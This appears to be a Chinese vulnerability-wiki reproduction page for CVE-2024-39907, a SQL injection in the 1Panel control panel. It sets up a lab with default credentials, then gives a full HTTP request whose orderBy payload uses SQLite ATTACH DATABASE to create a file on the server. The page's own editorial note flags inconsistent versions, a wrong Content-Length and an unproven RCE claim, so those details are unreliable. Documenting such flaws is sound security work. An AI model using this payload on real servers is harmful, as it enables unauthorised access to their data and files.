




# 1Panel 控制面板 SQL 注入漏洞 CVE-2024-39907

<!-- vulwiki-editorial:start -->
## 校订与适用边界

示例需要已认证面板会话。SQLite 数据库创建不等于任意可控文件内容，更不自动证明 RCE；原文重复 CREATE TABLE 会影响批处理行为，不能当作已经验证的成功链。

- 适用前提：Authenticated panel session; SQLite file creation permissions; affected<=1.10.9-lts claimed vs lab1.10.10-lts
- 证据范围：orderBy SQL injection plus SQLite ATTACH file creation; no textual RCE proof

### 本次正文校订

- 修复版本后缀 tls → lts 的转录错误。
- 保留原 Content-Length: 0 标头；它与 JSON 正文的关系待核，未重新计算原请求长度。
- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Affected<=1.10.9 contradicts stated vulnerable lab1.10.10
- Content-Length0 conflicts with JSON body
- SQL repeats same CREATE TABLE before drop; verify intended batch behavior
- SQLite database creation is not arbitrary controlled file content/RCE; qualify impact chain
- Vulhub command lacks directory/compose source

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

1Panel 是一款基于 Web 的 Linux 服务器管理控制面板，提供服务器管理的图形化界面。

CVE-2024-39907 是 1Panel 控制面板中存在的多个 SQL 注入漏洞集合，这些漏洞存在于 1Panel 的多个接口中，部分注入点由于过滤不善，可能导致攻击者实现任意文件写入，最终达成远程命令执行 (RCE)。该漏洞影响 1Panel v1.10.9-lts 及更早版本，已在 v1.10.12-lts 版本中得到修复。

参考链接:

- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml
- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-5grx-v727-qmq6
- https://hub.docker.com/r/moelin/1panel

## 漏洞影响

```
1Panel ≤ v1.10.9-lts
```

## 环境搭建

Vulhub 执行如下命令启动一个有漏洞的 1Panel v1.10.10-lts：

```shell
docker compose up -d
```

环境启动后，访问 `http://localhost:10086/entrance`，使用以下默认凭据登录：

- 用户名：`1panel`
- 密码：`1panel_password`







## 漏洞复现

登录 1Panel 控制面板后，漏洞存在于 `/api/v1/hosts/command/search` 接口中，`orderBy` 参数缺乏适当的输入验证，导致 SQL 注入攻击。

发送以下恶意 POST 请求来利用该漏洞：

```http
POST /api/v1/hosts/command/search HTTP/1.1
Host: localhost:10086
Connection: keep-alive
Content-Length: 0
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Cookie: psession=<YOUR_PSESSION_HERE>
Origin: http://localhost:10086
Referer: http://localhost:10086/
Content-Type: application/json
Accept-Encoding: gzip, deflate, br, zstd

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy` 参数中的恶意负载利用 SQLite 的 `ATTACH DATABASE` 功能在服务器文件系统上创建任意文件，演示了成功的 SQL 注入攻击。处理请求时，1Panel 后端会执行注入的 SQL 命令而不进行验证，确认漏洞存在且可被利用。




成功通过 `ATTACH DATABASE` 创建文件 `/tmp/randstr.txt`：




## 漏洞修复

升级至 1.10.12-lts 及以上版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
